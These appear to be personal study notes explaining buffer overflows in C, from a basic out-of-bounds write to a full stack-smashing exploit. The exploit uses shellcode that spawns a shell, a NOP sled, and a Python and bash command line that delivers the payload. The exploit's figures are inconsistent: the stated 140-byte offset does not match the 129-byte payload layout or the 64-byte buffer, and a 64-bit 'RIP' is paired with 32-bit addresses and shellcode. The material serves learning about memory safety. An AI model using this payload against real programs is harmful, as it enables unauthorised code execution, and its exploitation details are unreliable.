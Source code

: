 > [!idea] Buffer Overflow
> A buffer overflow occurs when an operation **interacts with memory outside of a specified array**. This happens when a program writes data beyond the allocated buffer's boundaries.
> 
> - Occurs when accessing array elements beyond its defined size
> - Can overwrite adjacent memory, including other variables or critical data
> - Potential to modify return addresses, leading to arbitrary code execution

> [!example] Simple Buffer Overflow
> ```c
> char name[4];  // Array of 4 characters
> name[5] = 'a'; // Accessing 6th element (index 5) - out of bounds!
> ```
> This example demonstrates writing beyond the array's allocated memory, potentially overwriting adjacent data.

> [!consider] Implications of Buffer Overflows
> - **Data Corruption**: Overwriting adjacent variables or data structures
> - **Security Vulnerabilities**: Potential to modify sensitive information
> - **Control Flow Hijacking**: Overwriting return addresses to execute arbitrary code
> 
> Buffer overflows can be particularly dangerous when they allow attackers to manipulate a program's execution flow, potentially leading to unauthorized access or code execution.

> [!example] Vulnerable C Function
> ```c
> void vulnerable_function() {
>     char buffer[8];
>     int important_flag = 0;
>     
>     printf("Enter your name: ");
>     gets(buffer);  // Dangerous! No bounds checking
>     
>     if (important_flag != 0) {
>         printf("How did you do that?\n");
>     }
> }
> ```
> 
> In this example:
> - `buffer` is allocated 8 bytes
> - `important_flag` is stored adjacent to `buffer` in memory
> - `gets()` is used, which doesn't perform bounds checking
> - An attacker could input more than 8 characters to overflow `buffer` and modify `important_flag`
> 
> ```
> Memory layout:
> [buffer (8 bytes)][important_flag (4 bytes)]
> ```
> 
> By inputting 12 or more characters, an attacker overwrites `important_flag`, potentially bypassing security checks or altering program behavior.

> [!example] Buffer Overflow Exploit: Overwriting RIP
> Vulnerable C code:
> ```c
> void func(char *arg) {
>     char buffer[64];
>     strcpy(buffer, arg);  // Vulnerable: no bounds checking
> }
> 
> int main(int argc, char *argv[]) {
>     if (argc > 1) func(argv[1]);
>     return 0;
> }
> ```
> 
> Goal: Execute unauthorized commands by manipulating the program's memory.
> 
> We achieve this by:
> 1. Overflowing the buffer to overwrite the return address (RIP)
> 2. Replacing the return address with a pointer to our malicious code
> 3. Injecting our malicious code (shellcode) into the buffer
> 
> Exploit process:
> 1. Analyze the program's memory layout:
>    - Why? To determine how to craft our payload for successful exploitation
>    - We need to find:
>      - Where our input buffer starts (e.g., address 0xffffd1f0)
>      - Where the return address is stored (e.g., at 0xffffd27c)
>      - How many bytes between these points (offset: 140 bytes)
>    This information is crucial for precisely positioning our payload components
> 
> 2. Craft a payload based on our memory analysis:
>    ```python
>    nop_sled = "\x90" * 80
>    shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
>    filler = "A" * 26
>    new_rip = "\xfc\xd1\xff\xff"  # 0xffffd1fc in little-endian
>    payload = nop_sled + shellcode + filler + new_rip
>    ```
> 
>    Payload components and their purposes:
>    - NOP sled: 80 bytes of harmless instructions (0x90) to increase our chances of successful execution
>    - Shellcode: 23 bytes of machine code that will spawn a shell when executed
>    - Filler: 26 bytes of 'A's to reach the exact location of the return address
>    - New return address: Points to our NOP sled, ensuring our shellcode gets executed
> 
>    The NOP sled provides a larger target area in case our address guess is slightly off. We use little-endian format for the new return address to match the system's byte order.
> 
> 3. Feed the payload to the program:
>    ```bash
>    ./vulnerable_program $(python -c 'print "\x90"*80 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*26 + "\xfc\xd1\xff\xff"')
>    ```
>    This step delivers our carefully crafted payload to exploit the buffer overflow vulnerability
> 
> 4. Exploit execution:
>    - Our payload overflows the buffer, overwriting the original return address
>    - When func() returns, it jumps to our injected code instead of the intended location
>    - Execution slides through the NOPs to our shellcode
>    - The shellcode runs, spawning a shell with elevated privileges
> 
> This exploit succeeds because the program blindly copies input without checking its length, allowing us to overwrite critical data on the stack and control the program's execution flow.
